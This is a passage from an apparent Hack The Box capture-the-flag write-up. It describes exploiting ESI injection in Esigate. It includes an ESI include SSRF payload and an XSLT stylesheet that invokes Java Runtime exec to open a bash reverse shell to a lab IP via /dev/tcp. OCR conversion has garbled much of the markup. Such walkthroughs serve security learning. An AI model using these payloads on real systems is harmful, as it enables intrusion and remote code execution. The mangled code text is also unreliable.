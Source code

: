 > Esigate allows a fast and invisible mashup of any web applications. It can be used to add application modules, written in any programming language (PHP, Java, . Net...) to a CMS, without cache or accessibility issues.

I looked for any exploit available for it and this comes up

> [https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/](https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/)

So according to the article ESI `includes` are tags which, when processed by the proxy or load balancer, perform a side HTTP request to fetch dynamic content. If an attacker can add an ESI `include` tag to the HTTP response, they can effectively perform SSRF attacks in the context of the surrogate server (not the application server).

For that I tried injecting the payload in `tickets.php` first. I tried in `title` parameter and `msg` parameter and finally I get the response on my python server when injecting in `id`

```nix
[esi:include src="http://10.10.14.9:8000/hacker" /](esi:include src="http://10.10.14.9:8000/hacker" /)
```

![Untitled](/img/htb-quick/Untitled%2011.png)

## Getting Shell

According to the article we need `xsl` which contains our payload.

> Note: Once a file created with an name and uploaded, you can't use the same filename. For example, If you use `shell.xsl` as first time you can use `shell.xsl` second time so change it to `shell2.xsl` like that.

### XSLT to RCE

Here In `cmd` I changed to Java Reverse shell. I tried number of payloads and everything fails, the thing why I chose `JAVA` reverse shell is from the article ***By default, the XML parser in Java allows the import of Java functions. This can easily lead to arbitrary code execution.***

That's why I decided to try this.

```xml
[?xml version="1.0" ?](?xml version="1.0" ?)
[xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"](xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform")
[xsl:output method="xml" omit-xml-declaration="yes"/](xsl:output method="xml" omit-xml-declaration="yes"/)
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
[root](root)
[xsl:variable name="cmd"](xsl:variable name="cmd")[![CDATA[bash -c bash${IFS}-i${IFS}](![CDATA[bash -c bash${IFS}-i${IFS})&/dev/tcp/10.10.14.9/1234[&1]]](&1]])[/xsl:variable](/xsl:variable)
[xsl:variable name="rtObj" select="rt:getRuntime()"/](xsl:variable name="rtObj" select="rt:getRuntime()"/)
[xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/](xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/)
Process: [xsl:value-of select="$process"/](xsl:value-of select="$process"/)
Command: [xsl:value-of select="$cmd"/](xsl:value-of select="$cmd"/)
[/root](/root)
[/xsl:template](/xsl:template)
[/xsl:stylesheet](/xsl:stylesheet)
```
